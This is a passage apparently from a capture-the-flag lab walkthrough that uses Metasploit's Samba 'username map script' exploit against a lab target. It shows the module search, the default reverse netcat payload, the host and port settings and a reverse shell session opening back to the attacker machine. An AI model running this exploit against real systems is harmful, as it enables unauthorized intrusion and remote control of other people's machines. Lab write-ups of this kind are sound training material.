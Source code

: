 ```bash
              ,a$$###$$P`  _.,-ass#S$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$####SSSS'
           .a$$$$$$$$$$SSS$$$$$$$$$$$$$$$$$$$$$$$$$$$$SS##==--""''^^/$$$$$$'
_______________________________________________________________   ,&$$$$$$'_____
                                                                 ll&&$$$$'
                                                              .;;lll&&&&'
                                                            ...;;lllll&'
                                                          ......;;;llll;;;....
                                                           ` ......;;;;... .  .


       =[ metasploit v6.0.50-dev                          ]
+ -- --=[ 2144 exploits - 1142 auxiliary - 365 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: View a module's description using 
info, or the enhanced version in your browser with 
info -d

msf6 > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > 

```

* Now set the Remote Host, Local Host, Local Port and run the exploit.

```sql

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.129.224.74
RHOSTS => 10.129.224.74
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf6 exploit(multi/samba/usermap_script) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.4:1234 
[*] Command shell session 1 opened (10.10.14.4:1234 -> 10.129.224.74:35324) at 2021-09-20 07:01:41 -0400
```
